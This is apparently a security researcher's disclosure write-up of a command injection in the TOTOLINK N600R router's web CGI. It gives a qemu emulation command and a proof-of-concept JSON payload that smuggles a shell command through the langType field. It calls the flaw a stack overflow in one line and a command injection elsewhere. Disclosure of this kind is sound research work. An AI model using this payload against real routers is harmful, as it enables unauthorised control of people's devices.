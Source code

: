 # TOTOLINK-N600R-setLanguageCfg-CommandInjection

﻿During my internship at Qi An Xin Tiangong Lab, I discovered a StackOverflow vulnerability in the TOTOLINK-N600R router.

By analyzing the cstecgi.cgi file in the cgi-bin directory, I found that the function at address 0x4159F8 contains a command injection vulnerability.

The command injection can be triggered by the langType key value, which leads to a sprintf command injection.

![image-20241216165906585](https://gitee.com/xyqer/pic/raw/master/202412191538676.png)

## How can we simulate a router

﻿Use the following command to simulate with qemu.

```bash
sudo chroot . ./qemu-mips-static -E CONTENT_LENGTH=300 -E QUERY_STRING="action=no" -L /lib ./web_cste/cgi-bin/cstecgi_patch.cgi < ./poc.json
```

﻿The content of the **poc.json** file is as follows:

```json
{"topicurl":"setLanguageCfg","langType":";ls;"}
```

## Attack result

![image-20241216170307530](https://gitee.com/xyqer/pic/raw/master/202412191538392.png)

﻿You can see that the command "ls" has been executed. If you want to execute other instructions, you only need to modify the key value of langType. You can execute any number of arbitrary instructions.